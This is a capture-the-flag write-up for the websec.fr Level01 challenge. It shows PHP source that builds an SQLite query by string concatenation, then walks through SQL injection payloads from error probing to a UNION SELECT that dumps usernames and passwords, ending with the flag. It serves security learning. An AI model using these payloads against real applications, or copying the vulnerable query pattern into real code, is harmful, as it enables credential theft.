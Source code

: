 # Level01
## Task
Challenge URL: https://websec.fr/level01/index.php  

![image](https://user-images.githubusercontent.com/44528004/132601995-9e60abba-e344-4271-83e8-3392e98229d1.png)
## Solution
### Initial recognition
The `this application` links to the back-end source code including PHP and HTML. Following is the source for PHP:  
```php
<?php
session_start ();

ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

include 'anti_csrf.php';

init_token ();

class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    check_and_refresh_token();

    $lo = new LevelOne ();
    $userDetails = $lo->doQuery ($_POST['user_id']);
}
?>
```

Here, we can see that the query statement is prepared by concatenating user input to a predefined statement and thereby susceptible to SQL injection.  

If I enter the `user ID` as `'`, an error message is returned:  
```
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "' LIMIT 1" in /index.php on line 16

Fatal error: Call to a member function fetchArray() on boolean in /index.php on line 17
```

If I enter '' or 1=1 --, I get this:  

![image](https://user-images.githubusercontent.com/44528004/132615026-734f4575-28eb-4e65-9bb3-da1ad6e08955.png)


### Exploitation
First, I found the number columns returned.  
When I entered `'' union select 1 --`, I got:  
```
Warning: SQLite3::query(): Unable to prepare statement: 1, SELECTs to the left and right of UNION do not have the same number of result columns in /index.php on line 16

Fatal error: Call to a member function fetchArray() on boolean in /index.php on line 17
```
This means the `SELECT` statement on the right side doesn't have the same number of columns as of the left side. Therefore, I increased the number of columns on the right side to 2 with the following payload:
```
'' union select 1, 1--
```

As a result, I got this:  

![image](https://user-images.githubusercontent.com/44528004/132615447-388b4ecc-5d20-460a-99aa-1af3365d1708.png)

This implies that there are 2 columns returned.

Next, I tried to disclose table names and column names to hopefully find something.  
From [this post](https://stackoverflow.com/questions/6460671/sqlite-schema-information-metadata), I got the payload to get the table names as well as the sql command to create that table:
```sql
SELECT name, sql FROM sqlite_master
WHERE type='table'
ORDER BY name;
```

With that payload, I got this result:  

![image](https://user-images.githubusercontent.com/44528004/132615853-0236d80c-7c0f-40a0-a7fc-df46e6d990d7.png)

From the result, I can see that there is a table called `users` and in that table there are 3 columns, namely `id`, `username`, and `password`.

Them, I wanted to see all `username`s in this table:
```sql
'' UNION SELECT username, password FROM users ORDER BY username DESC --
```

The result is:  

![image](https://user-images.githubusercontent.com/44528004/132617184-184c540e-bf7a-4f10-876f-981b272adef4.png)
> So flag: `WEBSEC{Simple_SQLite_Injection}`
